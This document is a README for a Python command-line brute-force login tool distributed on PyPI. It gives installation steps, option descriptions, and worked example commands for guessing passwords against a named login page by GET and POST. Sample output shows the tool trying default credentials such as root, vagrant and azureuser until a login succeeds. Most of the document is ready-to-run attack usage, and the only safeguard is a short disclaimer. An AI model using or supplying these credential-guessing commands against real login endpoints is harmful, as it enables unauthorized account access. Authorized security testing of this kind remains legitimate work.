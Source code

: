 # Brute Force Login Tool

![Python Version](https://img.shields.io/badge/Python-3.x-blue) ![License](https://img.shields.io/badge/license-MIT-green)

## Overview

This is a simple Brute Force Login tool written in Python. It is designed to assist in testing the security of login forms or API login endpoints. The tool supports both GET and POST HTTP methods for brute force attacks and give results based on the retrieved status code.

## Features

*   **Form Analysis:** Extracts and analyzes HTML form attributes to identify input names for username and password fields, extracts the `type` of a input tag or button tag, also extracts all the required tokens, cookies for a login Session.
```
Example:
➜  Praveen brute-force git:(main U:1 ✗) 🚀 brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
Brute Force Login
Tool By Praveen
Required Login Page URL or API Login URL Endpoint
Leave blank if you don't have, In optional cases
This module is not intended to be imported
[+] Username Provided, Username: admin, Using Username From User Input
[+] Using POST Method

Form Attributes Found:

Form 1 attributes:
  Method: POST
  Action: login.php
  Input types:
    password, text
  Input names:
    username, password
  Input names for username and password fields:
    Username input name: username
    Password input name: password
```
*   **Wordlist Attack:** Supports username and password brute force attacks using a provided wordlist file.
*   **GET and POST Methods:** Choose between GET and POST methods based on the target's login mechanism.
*   **Cookie Support:** Optionally provide a cookie value for authentication.
*   **User-friendly Interface:** Provides clear and colored console output for better user interaction.


## Release - PYPI
```
pip install pip install brute-force-attacker
```


### How to Run as command line tool

```
brute -w <wordlist_file> -t <target_url> -m <http_method> [-u <username>] [-c <cookie_value>]
```

*   `-t` or `--target`: Specify the target URL.
*   `-w` or `--wordlist`: Specify the wordlist file.
*   `-m` or `--method`: Specify the HTTP method (get or post).

Optional arguments:

*   `-u` or `--username`: Specify the username for targeted brute force (optional).
*   `-c` or `--cookie`: Specify the cookie value for authentication (optional).

## Usage

## Create a Virtual Environment and Activateit before using the tools 

### Create a Virtual Environment 
```
python3 -m venv venv
```
### Activate 
```
source venv/bin/activate
```

## Examples
### Brute Force Login using POST with username
#### Here admin is the username, word1.txt contains all the common passwords (Passwords only)
```
brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
```
### Brute Force Login using POST without username
#### By the below syntax you can run the brute force attack without usernames as it takes all the common username and password from the file named word2.txt
```
brute -w word2.txt -t "https://forms.praveenms.site/login.php" -m POST
```

### Brute Force Login using GET with Username
#### This works on HTTP Get method with username where the username is given and the password is left Blank where it is extracted from the word1.txt
```
brute -w word1.txt -t "https://forms.praveenms.site/login.php?username=admin&password=" -m GET
```

### Brute Force Login using GET with Username
#### This works on HTTP Get method without username and password where the username and password is left Blank, it is extracted from the word2.txt
```
brute -w word1.txt -t "https://forms.praveenms.site/login.php?username=&password=" -m GET
```

## Sample usage
```
➜  Praveen brute-force git:(main U:1 ✗) 🚀 brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
Brute Force Login
Tool By Praveen
Required Login Page URL or API Login URL Endpoint
Leave blank if you don't have, In optional cases
This module is not intended to be imported
[+] Username Provided, Username: admin, Using Username From User Input
[+] Using POST Method

Form Attributes Found:

Form 1 attributes:
  Method: POST
  Action: login.php
  Input types:
    password, text
  Input names:
    username, password
  Input names for username and password fields:
    Username input name: username
    Password input name: password
[+] Using Wordlist: word1.txt
-----------------------------------------------
Trying: admin and root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and admin ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and test ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and guest ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ansible ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ec2-user ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and vagrant ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and azureuser ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and !root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and pass@123 ...
[+] Status Code: 200
[+] Login Successful!
[+] Login Creds: 
[+] Username: admin
[+] password: pass@123
```

## Disclaimer

This tool is intended for educational and testing purposes only. Unauthorized access to systems or networks without permission is illegal.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
